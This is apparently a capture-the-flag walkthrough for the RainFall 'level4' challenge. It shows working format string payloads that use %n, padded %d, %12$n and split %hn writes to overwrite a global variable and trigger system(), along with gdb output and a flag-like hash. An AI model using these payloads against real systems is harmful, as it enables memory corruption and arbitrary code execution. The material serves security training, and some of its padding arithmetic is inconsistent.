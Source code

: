 # Walkthrough level4

Here this is a format string exploitation but the value to write is bigger. We
want to write 0x1025544 in the address 0x8049810. First thing try to locate
where is located the begining of our buffer:

```bash
level4@RainFall:~$ python -c "print('AAAA' + '%08x ' * 20)" | ./level4
AAAAb7ff26b0 bffff784 b7fd0ff4 00000000 00000000 bffff748 0804848d bffff540 00000200 b7fd1ac0 b7ff37d0 41414141 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
```

Buffer start is the 12th addresses further. So we can write something in the address:

```bash
(gdb) r < <("print('\x10\x98\x04\x08' + '%08x ' * 11 + '%n')")
(gdb) disas
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    eax,ds:0x8049810
=> 0x08048492 <+59>:    cmp    eax,0x1025544
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
End of assembler dump.
(gdb) p $eax
$2 = 103
```

We can write in the variable we want but we need to write a big value.
To do this we can use the `%Xd` specifier, it print the number with X
characters so if we do `%100d` printf will print 100 characters.
To do this we need to go one address below because `%d` consume an address:

```bash
(gdb) r < <(python -c "print('\x10\x98\x04\x08' + '%08x ' * 10 + '%100d%n')")
(gdb) p $eax
$4 = 194
```

Now we can do the same thing but write the value:
> 0x1025544 (16930116 in decimal) - 94 (characters already printed) = 16930022

```bash
level4@RainFall:~$ python -c "print('\x10\x98\x04\x08' + '%08x ' * 10 + '%16930022d%n')" > /tmp/a
level4@RainFall:~$ cat /tmp/a - | ./level4
(...)
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

Go further with `%X$n` modifier:

```bash
level4@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")' | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

> 0x1025544 (16930116 in decimal) - 94 (characters already printed) = 16930022
And with `$X$hn`:

```bash
Split the address to write in 2 bytes:
high = 0x102 = 258
low = 0x5544 = 21828
08049812 + 08049810 + %Xd%12$n + "%Yd%13$n"
X = 258 - 8 = 250
Y = 21828 - X + 8 = 21570
```

```bash
level4@RainFall:~$ python -c 'print("\x12\x98\x04\x08" + "\x10\x98\x04\x08" \
+ "%250d%12$hn" + "%21570d%13$hn")' | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
